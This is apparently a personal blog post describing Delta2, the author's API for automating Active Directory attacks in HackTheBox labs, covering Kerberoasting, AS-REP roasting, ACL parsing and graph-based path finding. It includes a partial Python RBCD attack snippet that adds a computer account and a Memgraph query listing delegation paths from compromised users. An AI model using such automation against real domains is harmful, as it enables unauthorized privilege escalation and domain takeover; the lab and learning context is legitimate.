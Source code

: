 +++
title = "Delta2"
date = "2024-11-10T16:56:20-07:00"
author = "Ceald"
authorTwitter = "" #do not include @
cover = ""
tags = ["delta2", "new", "cybersecurity", "projects", "python"]
keywords = ["projects", "delta2", "python"]
description = ""
showFullContent = false
readingTime = false
hideComments = false
+++

## Background
Delta2 is an API that is a Swiss army knife for active directory. I wrote this project because I was sick of having to set up java and remembering how to use bloodhound python for doing active directory boxes on HackTheBox, so I wrote my own. Delta2's primary use is automation like automate kerberosing after mapping the domain or getting shortest paths to admin users and exploiting the necessary users to get to admin users.

Delta2 was my first successful full-stack application and took many months to build. It uses Memgraph which is an alternative to Neo4j as the graphing database and FastAPI for the API, and it's containerized with docker for easy deployment.


## Process of building
### Plan
My plan was to build some kind of script or API that will allow me to move through a domain efficiently. There were a few ways I could've done that like using bloodhound and neo4j to find paths in the graph, but that'd require me to read documentation and code that I didn't write. My second option was to "reinvent the wheel" which is what I did. Unfortunately I thought it'd be the easiest way which it probably wasn't, but I learned more than if I were to just make it based off of bloodhound.

### The Beginning
After I kind of had a plan I started building it. I built an outline for the API with various routes I wanted like Kerberoasting, getting TGTs, AS-REP roasting, and a collection script. Testing was a bit of a pain because I would use boxes from HackTheBox, and sometimes I forgot to take out test code and I would have to take the repository down, remove the test code then put it back up to avoid spoilers for boxes. 

### Collection Script Works
One big issue with building the collection script was supporting Kerberos and reading nTSecurityDescriptors. nTSecurityDescriptors describe what objects and permissions a user has over another for example: Bob has WriteAll on Administrator. I first realized the issue with Kerberos when I couldn't get ldap3 and impacket to work together like how they work in bloodhound python so I switched to BloodyAD which is an Active Directory privilege escalation framework. So I reverse engineered BloodyAD to figure out how to use it because there's no documentation for how to use its python modules and got it kind of working. I say kind of because now I had to learn how to read nTSecurityDescriptors. You can find how I learned the syntax for nTSecurityDescriptors here:


https://itconnect.uw.edu/tools-services-support/it-systems-infrastructure/msinf/other-help/understanding-sddl-syntax/


Writing the collection script is what took the longest time because I also had to do a little reverse engineering on how bloodhound python worked and do a bunch of debugging to figure out what information and how to commit it to the graph as well as how to connect nodes. After collecting nodes next was to graph and link them that's where I read and parsed SnTSecurityDescriptors. No python modules supported it, so I had to do it manually.



### Examples
After getting the collection script working next was to write some examples for how to use the graph data and the other endpoints of the API.

Some examples I built included a kerberoasting script and a RBCD (Resource Based Constrained Delegation) attack script. Some code snippets for the RBCD script:
```python
def run(user, password, hash_, aeskey, delegate_to):
  comp_name = 'randomcomputer550'
  comp_pass = 'Password123!'
  j = {
    "target": {
      "domain": domain,
      "dc": dc,
      "kerberos": "False",
      "ldap_ssl": "False",
      "user_name": user,
      "dc_ip": dc_ip
    },
    "kerb": {
      "password": password,
      "user_hash": hash_,
      "aeskey": aeskey
    },
    "ops": {
      "option": "add_computer",
      "computer_name": comp_name,
      "computer_pass": comp_pass,
      "ou": "",
      "contianer": ""
    }
  }

  response = req.post('http://localhost:9000/ldap/objeditor', json=j).json()
  print(response)

  if "error" in response['response'] and "entryAlreadyExists" not in response['response']:
      raise Custom_exception(message=response['response'])


  j = {
    "target": {
      "domain": domain,
      "dc": dc,
      "kerberos": "False",
      "ldap_ssl": "False",
      "user_name": user,
      "dc_ip": dc_ip
    },
    "kerb": {
      "password": password,
      "user_hash": hash_,
      "aeskey": aeskey
    }
  }
```
The script would add a new computer to the domain and then modify its permissions to have control over an object it can delegate to like the administrator user. All of it is automated by the script running a query to get possible RBCD paths to users. The query:
```sql
MATCH path1=(n {t: "user"})-[ *ALLSHORTEST (r, n | 1)]->(m)
WHERE m.disabled IS NULL AND m.t = "computer"
  AND n.disabled IS NULL 
  AND n.pwned = "True" 
  AND m.pwned IS NULL 
  AND m.added_comp IS NULL 
  AND NOT m.name = 'randomcomputer550$'
  AND ALL(rel IN relationships(path1) WHERE type(rel) IN ["memberOf", "GENERIC_ALL"])
  AND size(relationships(path1)) > 0
RETURN path1
```
